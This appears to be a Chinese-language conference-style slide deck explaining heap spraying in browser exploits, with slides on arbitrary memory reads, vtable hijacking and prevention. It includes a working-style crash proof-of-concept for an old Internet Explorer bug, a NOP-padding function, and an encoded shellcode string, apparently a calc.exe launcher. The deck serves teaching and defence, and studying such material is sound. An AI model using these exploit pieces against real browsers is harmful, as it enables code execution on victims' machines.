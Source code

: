 title: Heap Spray and its application on browser exploits
speaker: 杜小东
transition: slide3
files: https://upcdn.tristana.cc/ppt/assets/lib/full-screen.js
theme: moon
usemathjax: yes

[slide]
<button onclick="fullScreen()" class="btn btn-default" style="cursor: pointer;position:fixed;left:10px;top:10px;"></button>

# Heap Spray and its application on browser exploits

[slide]

## 什么是 Heap Spray

- 使用大量 NOP，申请大量的内存，超过系统内存的特定值，即可实现在目标进程的内存中预定的位置写入一串命令

[slide]

## 有什么危害

- 执行恶意代码 {:&.rollIn}
- 恶意执行程序

[slide]

## 产生方式(Browser)

---

- large strings
- loading image files into the process
- use the low-level bitmap interface offered by the canvas API, and web workers
- [Array](https://cansecwest.com/slides/2014/The%20Art%20of%20Leaks%20-%20read%20version%20-%20Yoyo.pdf)
- [wiki](https://en.wikipedia.org/wiki/Heap_spraying)

[slide]

## 怎么攻击

---

- Crash PoC {:&.rollIn}
- NOP
- Shellcode

[slide]

## PoC(Proof of Concept)

---

```html
<body>
  <form><table><th><ins>aaaaaaaaaa aaaaaaaaaa</ins></th></table></form>
  <form><table><th><ins>aaaaaaaaaa aaaaaaaaaa</ins></th></table></form>
  <form><table><th><ins>aaaaaaaaaa aaaaaaaaaa</ins></th></table></form>
  <form><table><th><ins>aaaaaaaaaa aaaaaaaaaa</ins></th></table></form>
  <form><table><th><ins>aaaaaaaaaa aaaaaaaaaa</ins></th></table></form>
  <form><table><th><ins>aaaaaaaaaa aaaaaaaaaa</ins></th></table></form>
</body>
```

```javascript
function crash(i) {
  numsploits = numsploits + 1;
  t = document.getElementsByTagName('table')[i];
  t.parentNode.runtimeStyle.posWidth = -1;
  t.focus();
}
```

[slide]

## NOP

---

```javascript
function nop() {
  var nops = '';
  var nops_size = 216;
  for (var i = 0; i < nops_size; i++) {
    nops += 'A';
  }
  return nops;
}
```

[slide]

## Shellcode

- Shellcode 是指能完成特殊任务的自包含的二进制代码

---

```
var shellcode = unescape("%uc92b%u1fb1%u0cbd%uc536%udb9b%ud9c5%u2474%u5af4%uea83%u31fc%u0b6a%u6a03%ud407%u6730%u5cff%u98bb%ud7ff%ua4fe%u9b74%uad05%u8b8b%u028d%ud893%ubccd%u35a2%u37b8%u4290%ua63a%u94e9%u9aa4%ud58d%ue5a3%u1f4c%ueb46%u4b8c%ud0ad%ua844%u524a%u3b81%ub80d%ud748%u4bd4%u6c46%u1392%u734a%u204f%uf86e%udc8e%ua207%u26b4%u04d4%ud084%uecba%u9782%u217c%ue8c0%uca8c%uf4a6%u4721%u0d2e%ua0b0%ucd2c%u00a8%ub05b%u43f4%u24e8%u7a9c%ubb85%u7dcb%ua07d%ued92%u09e1%u9631%u5580")
```

[slide]

## 怎么攻击

---

- Crash PoC
- NOP
- Shellcode
- 为什么需要 NOP ?(需要精确命中 Shellcode)

[slide]

## 任意内存地址读取

---

- 通过找到 Array 后面的一个紧邻的 String 对象的内存，然后覆盖这个对象的缓冲区指针域和大小域来实现读取任意内存

[slide]

## 控制 RIP(指令指针)

---

- 通过覆盖附近 Array 对象的虚函数表(vtable)指针并调用虚函数来控制 RIP，例如计算器指令
- [vtable](https://github.com/jayzeng/The-Art-Of-Programming-by-July/blob/master/ebook/zh/08.0.md)

[slide]

## 总结与预防

---

- 浏览器上的 Heap Spray 需要利用一个浏览器漏洞，然后非正常地制造堆溢出的代码来覆盖目标进程的内存
- 对包含大量重复值的字符串和数组等重复申请堆的时候，可以记录堆的大小、内容和数量，如果这些重复的堆请求到达了一个阀值或者覆盖了指定的地址（譬如几个敏感地址 0x0C0C0C0C，0x0D0D0D0D 等等），立即阻止这个脚本执行过程并弹出警告
- 对常见的 JavaScript 对象的虚函数表进行保护
- 使用现代浏览器(用户)

[slide]

## 疑问

- Shellcode 是怎么转化为 系统命令(调用 calc.exe)?
- Shellcode 怎么编写?

[slide]

## 参考链接

---

- [wiki](https://en.wikipedia.org/wiki/Heap_spraying)
- [NOP](https://zh.wikipedia.org/wiki/NOP)
- [Exploiting Internet Explorer 11 64-bit on Windows 8.1 Preview](http://ifsec.blogspot.com/2013/11/exploiting-internet-explorer-11-64-bit.html)
- [calc.exe shellcode](https://github.com/peterferrie/win-exec-calc-shellcode)

- http://drinkey.github.io/%E7%BC%96%E7%A8%8B%E6%8A%80%E6%9C%AF/2014/03/24/hello-shellcode/

- http://www.360doc.com/content/10/1102/19/2648643_66047788.shtml
- http://blog.csdn.net/magictong/article/details/7391397
- http://stackoverflow.com/questions/381171/help-me-understand-this-javascript-exploit
- https://github.com/exp-sky
- https://www.corelan.be/index.php/2011/12/31/exploit-writing-tutorial-part-11-heap-spraying-demystified/
